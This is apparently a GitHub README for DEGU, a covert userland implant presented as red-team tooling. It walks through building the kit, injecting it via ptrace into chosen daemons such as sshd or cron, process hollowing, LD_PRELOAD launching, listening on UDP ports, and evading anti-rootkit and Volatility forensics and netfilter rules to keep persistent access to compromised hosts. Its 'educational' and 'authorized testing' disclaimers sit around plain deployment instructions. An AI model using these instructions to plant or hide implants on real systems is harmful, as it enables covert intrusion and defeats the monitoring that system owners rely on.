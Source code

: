 # DEGU: Advanced Stealth Userland Kit
**EDUCATIONAL PURPOSES ONLY. USE EXCLUSIVELY ON YOUR OWN SYSTEMS.**

<p align="center">
  <img src="https://raw.githubusercontent.com/io-tl/degu-lib/refs/heads/main/degu.png">
</p>

  * [Overview](#overview)
  * [Requirements](#requirements)
  * [Quick Start](#quick-start)
  * [Technical Architecture](#technical-architecture)
  * [Usage](#usage)
  * [Building](#building)
  * [Troubleshooting](#troubleshooting)
  * [Debugging](#debugging)
  * [Container Considerations](#container-considerations)
  * [Client API](#client-api)


## Overview

DEGU is a sophisticated stealth userland kit designed for covert operation for red teaming without requiring sys_clone/sys_execve calls as root. Developed primarily for red team operations, it enables persistent access to compromised assets while evading common detection mechanisms.

### Key Features

- **Evasion Capabilities**: Bypasses detection by conventional anti-rootkit tools and forensics frameworks including Volatility
- **Firewall Circumvention**: As root, bypasses netfilter rules using raw ethernet eBPF rules
- **Process Parasiting**: As root, it can inject into userland process or use process hollowing as user
- **Static Executable Launching**: Uses ulexec to launch static executables ( 🐁 ♥  Rust & Go ) inside parasited processes
- **Python API**: Provides seamless automation capabilities

## Requirements

- OpenSSH (for ssh-keygen binary)
- Python 3
- Golang
- GCC toolchain

## Quick Start

```bash
git clone https://github.com/io-tl/degu-lib
cd degu-lib
./config -r -s build
```

## Technical Architecture

DEGU operates as an "autorelocatable" executable library that uses signals to execute within parasitized processes without requiring fork, thread creation, or function hooking. 

Security features include:
- Elliptic curve cryptography (ed25519) for message signing and key exchange
- AES session encryption
- Process hollowing for stealth execution
- UDP/Raw ethernet packet communication

## Usage

### Root Mode

As root, DEGU can inject into existing processes using ptrace and wait for activation commands.

```bash
# Basic usage (auto-selects from candidate process list)
./degu.prod.so

# Target a specific process
./degu.prod.so <pid>

# Alternative: Use LD_PRELOAD (spawns a visible process)
LD_PRELOAD=/root/degu.dbg.so /bin/ls
```

You can edit the list of candidate processes in `degu/main.c`:

```c
#define CANDSIZE 11
char *candidate[CANDSIZE]= {
    "udev",
    "cron",
    "udisksd",
    "syslog",
    "containerd",
    "sshd",
    "getty",
    "agetty",
    "dhcp",
    "master",
    NULL
};
```

### User Mode

As a regular user, DEGU can listen on a non-privileged UDP port:

```bash
# Parasite an executable and launch
./degu.dbg.so <port> <bin>

# Example
./degu.dbg.so 31337 /bin/ls

# Standalone without parasiting
./degu.dbg.so <port>

# Using LD_PRELOAD
PORT=31337 LD_PRELOAD=/path/to/degu.dbg.so /bin/ls
```

## Building

The `./config` script generates necessary keys and builds the DEGU components:

```bash
./config -r -s build
```

Options:
- `-d, --dest DEST`: Output directory (default: /tmp/degu)
- `-r, --rand`: Generate new keys.h (required for first build)
- `-s, --ssh`: Generate new SSH keys (required for first build)
- `-f, --force`: Overwrite existing libraries
- `-v, --verbose`: Enable verbose output

## Troubleshooting

DEGU may output error codes with specific emoticons:

| Symbol | Description | Error Code |
|--------|-------------|------------|
| `3<`   | Attach failed - couldn't attach via ptrace | -101 |
| `:(`   | Injection failed - couldn't write to process memory | -102 |
| `:/`   | Seccomp error - target has too restrictive seccomp policy | -103 |
| `:\`   | Deleted libs error - dlopen invocation would fail | -104 |
| `?`    | Parasiting error - not an ELF or insufficient memory | -105 |

## Debugging

The `degu.dbg.so` library outputs debug messages to `/tmp/debug`. For operational security, use `degu.prod.so` in production environments.

## Container Considerations

Be cautious when using in containerized environments, as ptrace syscalls may be restricted:

```
[269197.431639] ptrace attach of "sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups"[986278] was attempted by "./degu.dbg.so"[986385]
```

In such cases, consider using the LD_PRELOAD method instead.

## Client API

For documentation on client usage and API functionality, see the separate client README.md.

---

*DEGU is designed for authorized security testing only. Unauthorized use against systems you don't own is illegal and unethical.*
